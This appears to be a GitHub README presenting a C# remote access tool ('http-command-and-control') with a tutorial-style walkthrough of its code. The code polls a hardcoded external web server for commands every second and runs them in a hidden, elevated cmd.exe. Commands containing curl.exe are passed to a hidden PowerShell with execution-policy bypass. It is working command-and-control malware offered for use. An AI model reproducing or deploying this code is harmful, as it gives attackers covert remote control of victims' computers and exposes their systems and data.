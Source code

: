 # http-command-and-control Remote Access Tool (RAT) using c# >

<b>Let's understand it.</b><br>
<b>This will get the command from online web server.
</b><br>
  
                          new WebClient().DownloadString("https://ustaad-mailer.000webhostapp.com/go.php");<br>
<br><br><br>
<b>Run command in device.</b>
  
                            Process cmd = new Process();<br>
                            cmd.StartInfo.FileName = "cmd.exe";<br>
                            cmd.StartInfo.RedirectStandardInput = true;<br>
                            cmd.StartInfo.RedirectStandardOutput = true;<br>
                            cmd.StartInfo.CreateNoWindow = true;<br>
                            cmd.StartInfo.UseShellExecute = false;<br>
                            cmd.StartInfo.Verb = "runas";<br>
                            cmd.Start();<br>
                            cmd.StandardInput.WriteLine(json);<br>
                            <br><br><br>
  
<b>Lets wait for 1 second</b><br>
                          Thread.Sleep(1000);<br>
                            
<b>Now lets combine the whole idea. Get the command and run cmd in while loop</b>

  
      while (chk == 0)
            {
                try
                {
                    json = new WebClient().DownloadString("https://ustaad-mailer.000webhostapp.com/go.php");
                    if (json != oldjson)
                    {

                        if (json.Contains("curl.exe"))
                        {
                            System.Diagnostics.Process.Start("CMD.exe", "/C powershell -w h -ep bypass " + json);
                        }
                        else
                        {
                            Process cmd = new Process();
                            cmd.StartInfo.FileName = "cmd.exe";
                            cmd.StartInfo.RedirectStandardInput = true;
                            cmd.StartInfo.RedirectStandardOutput = true;
                            cmd.StartInfo.CreateNoWindow = true;
                            cmd.StartInfo.UseShellExecute = false;

                            cmd.StartInfo.Verb = "runas";
                            cmd.Start();

                            cmd.StandardInput.WriteLine(json);
                        }

                        Console.WriteLine("diff result json=" + json + "old=" + oldjson);
                    }
                    else
                    {
                        Console.WriteLine("same result json=" + json + "old=" + oldjson);
                    }


                    oldjson = json;
                }
                catch (Exception e)
                {
                    Console.WriteLine("Connection not stable.");
                }
                Thread.Sleep(1000);

            }
